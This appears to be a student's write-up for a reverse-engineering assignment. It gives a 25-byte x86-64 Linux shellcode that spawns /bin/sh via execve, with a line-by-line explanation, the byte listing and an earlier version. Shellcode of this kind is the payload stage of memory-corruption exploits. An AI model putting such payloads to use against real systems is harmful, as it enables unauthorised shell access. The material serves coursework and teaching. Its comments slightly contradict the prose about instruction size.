 # Assignment 1 - Assembly Review

## Overview

In this assignment, we are tasked with writing a 64-bit x86 Linux shellcode to execute the Linux system call `execve`, which replaces the currently running process with a terminal shell (`/bin/sh`). The goal is to write compact and efficient shellcode that passes the provided testing program.

## Solution

```assembly
# Horacio Gonzalez
# CS 479 Reverse Engineering
# Assignment 1

.text
.global _start
_start:
	lea path(%rip), %rdi	# Load the address of the path ("/bin/sh\0") into rdi
	xor %rdx, %rdx		# rdx = 0
	xor %rsi, %rsi		# rsi = 0
	
	mov $0x3b, %al		# Set syscall number for execve, this is the same as 
				# mov $59, %rax   (either way works and same size) 
				# but in this case we just want to use the lower 8
				# bits of %rax to make the size smaller

	syscall			# execute execve
path:
	.string "/bin/sh"	# path to sh

```
## Explanation
```assembly
.text
.global _start
_start:
```
- The code begins with the standard setup. `_start` is the entry point, and we mark it as global. This part was given to us by Dr. Reynolds.
<br>
  

```assembly
    lea path(%rip), %rdi   # Load the address of the path ("/bin/sh\0") into rdi
```
- `lea path(%rip), %rdi`: This instruction uses the `lea` (load effective address) to compute the effective address of the path label (the address of the `"/bin/sh\0"` string) and loads it into the `rdi` register. `rip` is the instruction pointer, and `%rip` represents the address of the next instruction. This sets up `rdi` with the address of the string.
<br>

```assembly
    xor %rdx, %rdx         # rdx = 0
    xor %rsi, %rsi         # rsi = 0
```
- `xor %rdx, %rdx`: Clears the `rdx` register by XORing it with itself. This sets `rdx` to 0.
- `xor %rsi, %rsi`: Clears the `rsi` register by XORing it with itself. This sets `rsi` to 0.
<br>

```assembly
    mov $0x3b, %al         # Set syscall number for execve, this is the same as 
                           # mov $59, %rax   (either way works and same size) 
                           # but in this case, we just want to use the lower 8
                           # bits of %rax to make the size smaller

```
- `mov $0x3b, %al`: Loads the value `0x3b` into the lower 8 bits of the `al` register. This sets up the `syscall` number for `execve`. Alternatively, you could use `mov $59, %rax` to set the `syscall` number, but this would require more bytes.
<br>

```assembly
  syscall                # execute execve
```
- `syscall`: Initiates a system call. The values in `rdi`, `rsi`, and `rdx`, determine the parameters passed to the system call. In this case, `rdi` contains the address of the string ("/bin/sh\0"), `rsi` and `rdx` are set to 0, indicating no additional arguments or environment variables.
<br>

```assembly
path:
    .string "/bin/sh"      # path to sh
```
- This section declares the string "/bin/sh" and labels it as `path`. The `lea` instruction from earlier loads the address of this string.
<br>

## Size
My shellcode is **25 bytes long**. Here they are: `48 8D 3D 0A 00 00 00 48 31 D2 48 31 F6 B0 3B 0F 05 2F 62 69 6E 2F 73 68 00`

## Other approaches
This was the first code that could actually work. The size of the shellcode was 36, so I decided to try to reduce this number. 
I deleted the first two instructions and re-run the program, and the shellcode run perfectly. After that I thought that instead of using the whole `%rax` register I could use only the lower 8 bits `%al` to setup the execve number. I also deleted the `leave` instruction since I was not using the stack instructions from the beggining.
```assembly
.text
.global _start
_start:
	push %rbp
	mov %rsp, %rbp
	
	lea shellPath(%rip), %rdi
	mov $59, %rax
	xor %rsi, %rsi
	xor %rdx, %rdx

	syscall

	leave
	ret

shellPath:
	.string "/bin/sh"
```
